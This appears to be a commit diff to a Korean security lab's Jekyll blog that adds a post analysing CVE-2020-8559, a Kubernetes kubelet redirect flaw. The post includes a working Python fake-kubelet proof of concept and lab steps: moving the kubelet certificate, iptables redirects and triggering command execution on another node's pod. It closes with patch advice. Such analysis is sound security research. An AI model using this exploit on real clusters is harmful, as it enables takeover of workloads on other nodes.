

Before and after one commit to secunologylab/secunologylab.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
1. Add a 3rd post 2. remove underline of <a> tag

````diff
--- /dev/null
+++ b/_posts/2021-04-12-CVE-2020-8559.md
@@ -0,0 +1,265 @@
+---
+layout: post
+title: "CVE-2020-8559 쿠버네티스 클러스터 장악 취약점 분석"
+author: Moon Hyun Jong (heizelnet)
+date: 2021-04-12 18:00:00
+categories: Kubernetes
+img: 3.png
+---
+
+해당 취약점은 2020년 7월 22일 패치된 Kubernetes 내 구성 요소인 kubelet 취약점 입니다.
+특정 노드의 권한을 탈취하였을 때 발생 가능하며, 해당 노드의 kubelet을 변조하여 클러스터 내 다른 노드에 명령을 실행할 수 있습니다.
+
+이 글에서는 다음과 같은 내용을 소개하고자 합니다.
+
+* 배경 지식
+* 취약점 발생 원인 및 대상
+* POC
+* 취약점 예상 연계
+* 취약점 추천 보완방향
+
+<br />
+
+## 배경 지식
+
+#### 쿠버네티스 간단 소개
+
+쿠버네티스는 구글이 내부 배포 시스템으로 사용하던 borg를 기반으로 시작한 컨테이너 배포/확장 및 관리를 자동화해주는 오픈소스 플랫폼입니다. 현재 대부분의 퍼블릭 클라우드에서 쿠버네티스 기반 관리형 서비스를 제공하는 등 클라우드 시장의 대세로 자리잡았습니다. Master와 Worker의 구조로 관리를 지원하며, 컨테이너의 다양한 배포 방식을 지원하는 것이 특징입니다.
+
+#### 쿠버네티스의 구성 요소
+
+<div class="img-in-post">
+<img src="/images/3/1.png" />
+[그림 1] kubernetes cluster structure
+</div>
+
+**※** 본 그림은 분석글의 이해를 위해 그린 **간단한** 쿠버네티스 구조입니다.
+
+```
+Cluster : 컨테이너를 관리하고 배포하고 동작시키는 기기들의 집합단위
+Master  : 클러스터 내에서 컨테이너를 배포하고 관리하는 "기기"
+Worker  : 배포되는 컨테이너를 동작시키고 전달받은 관리 명령어를 실행하는 "기기"들
+Pod     : 한개 이상의 "컨테이너"로 구성된 실행 배포 단위
+kube-apiserver : 클러스터 api 요청이 발생할때 유효검증을 거친 후 REST api를 제공하는 서버
+kubelet : 명령을 받아 컨테이너의 정상동작 여부검증과 조건에 맞는 컨테이너 실행을 수행하는 바이너리
+```
+
+<br />
+
+#### 쿠버네티스 명령 실행에 따른 동작 방식
+
+<div class="img-in-post">
+<img src="/images/3/2.png" />
+[그림 2] kubectl command running process
+</div>
+
+
+명령실행 도구인 kubectl을 이용하여 특정 pod에 명령 실행을 진행한 스크린샷입니다. ("**--v=7**" 옵션을 추가하여 로그 출력)
+
+- 1번 : kube-apiserver에 올바르게 명령을 전달하기 위하여 각종설정을 /root/.kube/config 디렉토리에서 load합니다.
+- 2번 : 대상 pod가 유효한지 확인하는 명령어가 실행됩니다. ("**kubectl get pods [대상pod]**" 명령과 동일한 과정에 해당됩니다.)
+- 3번 :  200 response를 확인한 이후 kube-apiserver가 대상 pod의 node에서 실행되는 kubelet에 접속하여 명령을 실행합니다.
+- 4번 :  kubelet을 통해 대상 node의 docker(컨테이너 런타임) 명령들이 수행되고 성공 시 101 response를 전달 받습니다.
+
+<br />
+
+## 취약점 발생 원인 및 대상
+
+#### 취약점 발생 원인
+
+<div class="img-in-post">
+<img src="/images/3/3.png" />
+[그림 3] vulnerability trigger process 1
+</div>
+
+
+- 명령 전달을 위해 kube apiserver에서 접속하는 kubelet이 공격자 등에 의해 **변조된 kubelet**일 경우, 다른 Node 및 Pod에 변조된 명령을 실행하기 위하여 300번대 **redirect response**를 발생시킵니다.
+
+- 이 300번대 response과 동시에 **Location 헤더**에 원하는 명령에 해당하는 API를 추가합니다.
+
+<Br />
+
+<div class="img-in-post">
+<img src="/images/3/4.png" />
+[그림 4] vulnerability trigger process 2
+</div>
+
+
+- 이러한 response에 대해 적절한 검증이나 처리가 이루어지지 않을 경우, apiserver는 변조된 명령을 대상 Pod에 전달하게 됩니다.
+
+- 단, 해당 취약점은 kubelet 변조 및 인증서 탈취와 같은 사전작업이 이루어져야 하므로 Node의 **root 권한 장악**이 전제됩니다.
+
+- 해당 취약점이 패치된 버전에서는 다음과 같이 **redirect response**에 대응하는 코드가 추가되었습니다.
+
+<div class="img-in-post">
+<img src="/images/3/5.png" />
+[그림 5] kubernetes v1.18.6 patched code
+</div>
+
+
+#### 취약점 대상 버전
+
+다음과 같은 버전에서 패치되었으며 하위버전은 공격대상에 해당됩니다.
+
+```
+v1.16.13 / v1.17.9 / v1.18.6
+```
+
+<br />
+
+## POC 소개와 실습
+
+#### POC 소개
+
+```python
+import BaseHTTPServer, SimpleHTTPServer
+import ssl
+
+class kubeletHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
+    def do_POST(self):
+        print(self.path)
+        master_ip = 'xxx.xxx.xxx.xxx'
+        target_pod = 'target_pod_name'
+        command = 'command_name_else'
+        self.send_response(307);
+        self.send_header('Location', 'https://{0}:6443/api/v1/namespaces/default/pods/{1}/exec?command={2}%20from%20{3}&stdout=1&stderr=true'.format(master_ip, target_pod, command, target_pod))
+        self.end_headers()
+
+
+httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8080), kubeletHandler)
+pem_path = 'copied pem file path'
+httpd.socket = ssl.wrap_socket (httpd.socket,
+                                certfile=pem_path, server_side=True)
+httpd.serve_forever()
+```
+
+* 해당 POC는 요청이 도착했을 때 **300번대 response**와 함께 실행하고자 하는 명령어를 **Location 헤더**에 추가하는 fake kubelet 역할을 수행하는 간단한 파이선 코드입니다.  (명령어 형식은 REST이며, 실행시킬 컨테이너와 명령어를 삽입해줍니다.)
+
+#### POC 실습 방법
+
+- POC 실습 환경 구성
+
+<div class="img-in-post">
+<img src="/images/3/6.png" />
+[그림 6] sample cluster structure
+</div>
+
+
+구성도와 같이 대상버전의 환경에 Master Node 1개, Worker Node 2개를 구축한 클러스터를 준비합니다.
+
+```shell
+# kubectl label nodes Node1 condition=compromised-node
+# kubectl label nodes Node2 condition=very-secure-node
+```
+
+Master Node에서 다음과 같은 명령어를 통해 각 Worker Node에 대한 label을 부여합니다.
+
+```yaml
+  apiVersion: v1                                                                               #node1.yaml
+  kind: Pod
+  metadata:
+    name: compromised-pod
+    namespace: default
+  spec:
+    containers:
+    - name: compromised-container
+      image: alpine
+      command: ["/bin/sh"]
+      args: ["-c", "sleep 72000"]
+      securityContext:
+        privileged: true
+      volumeMounts:
+      - name: host-root-volume
+        mountPath: /host
+    volumes:
+    - name: host-root-volume
+      hostPath:
+        path: /
+    hostNetwork: true
+    hostPID: true
+    restartPolicy: Always
+    nodeSelector:
+     condition: compromised-node
+```
+
+  ```yaml
+  apiVersion: v1                                                                               #node2.yaml
+  kind: Pod
+  metadata:
+    name: very-secure-pod
+    namespace: default
+  spec:
+    containers:
+    - name: very-secure-container
+      image: nginx
+      imagePullPolicy: IfNotPresent
+    nodeSelector:
+      condition: very-secure-node
+  ```
+
+상단의 내용을 Master Node에 node1.yaml, node2.yaml로 각각 저장하여 "**kubectl apply -f [파일명]**" 명령어로 적용해줍니다.
+
+<br />
+
+- POC 실습 순서
+
+```
+# kubectl exec -it compromised-pod /bin/sh
+```
+
+Master Node에서 kubectl을 통해 Node1의 compromised-pod에 접근해줍니다. 실제 상황에서는 container escape 혹은 host 에서 root 권한을 얻은경우에 해당합니다.
+
+```
+# apk add python2 vim
+```
+
+접근한 compromised-pod에서 poc 코드 편집을 위해 python2와 vim을 설치해줍니다.
+
+```
+# mv /var/lib/kubelet/pki/kubelet-20* /tmp/kubelet-server.pem
+# vi /tmp/fake-kubelet.py
+```
+
+kubelet의 인증서가 보관된 디렉토리에서 인증서를 /tmp 디렉토리로 옮겨주거나 복사합니다.
+이후, fake-kubelet.py 파일을 생성하여 poc 코드를 붙여놓고 master_ip, target_pod, pem_path 변수를 환경에 맞게 편집합니다.
+(master_ip의 경우에는 /etc/hosts 혹은 환경 변수를 참조하여 작성하며 target_pod는 Node2의 very-secure-pod에 해당됩니다)
+
+```
+# iptables -t nat -I PREROUTING -p tcp --dport 10250 -j REDIRECT --to-ports 8080
+# iptables -t nat -I OUTPUT -p tcp -o lo --dport 10250 -j REDIRECT --to-ports 8080
+# python2 /tmp/fake-kubelet.py&
+```
+
+iptables를 통해 10250 (기존 kubelet port 번호) 접근을 8080으로 redirect 시킵니다. 그 다음 fake-kubelet.py를 실행해줍니다.
+(해당 작업은 실습 과정이므로, kubelet 바이너리를 변조하는 대신 port-forward를 이용하여 기존의 kubelet을 유지함)
+
+```
+# kubectl exec compromised-pod echo hello
+```
+
+poc 코드 실행 이후 Master Node에서 compromised-pod에 임의의 명령을 실행합니다.
+정상적으로 poc가 실행되었을 때 target_pod로 편집한 command가 실행됩니다.
+
+<br />
+
+## 취약점 예상 연계
+
+해당 취약점은 Node의 root 권한을 필요로 하기때문에 container escape 취약점과 연계될 가능성이 높습니다.
+
+해당 영상은 [CVE-2020-15257 컨테이너 이스케이프 취약점](https://blog.secunologylab.com/CVE-2020-15257/)과 연계한 클러스터 익스플로잇 실행 영상입니다.
+
+<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/HzODqCbDq6c' frameborder='0' allowfullscreen></iframe></div>
+
+<br />
+
+## 취약점 추천 보완방향
+
+해당 취약점의 경우 패치된 버전으로 업데이트를 **강하게** 권장합니다. 업데이트가 불가능한 환경의 경우 Node의 kubelet에서 전송되는 300번대 redirect에 대한 지속적인 logging이나 추가적인 proxy backend를 통한 조치를 추천드립니다.
+
+<br />
+
+## Reference
+
+* https://hackerone.com/reports/863979
+* https://bcho.tistory.com/1256
+* https://ssup2.github.io/
--- a/_sass/_globals.scss
+++ b/_sass/_globals.scss
@@ -49,7 +49,7 @@ textarea {
 
 a {
   color: $link-color;
-  text-decoration: underline;
+  text-decoration: none;
 
   &:hover {
     transition: color .2s linear;
````
Also changed, not shown: images/3.png (added), images/3/1.png (added), images/3/2.png (added), images/3/3.png (added), images/3/4.png (added), images/3/5.png (added), images/3/6.png (added).
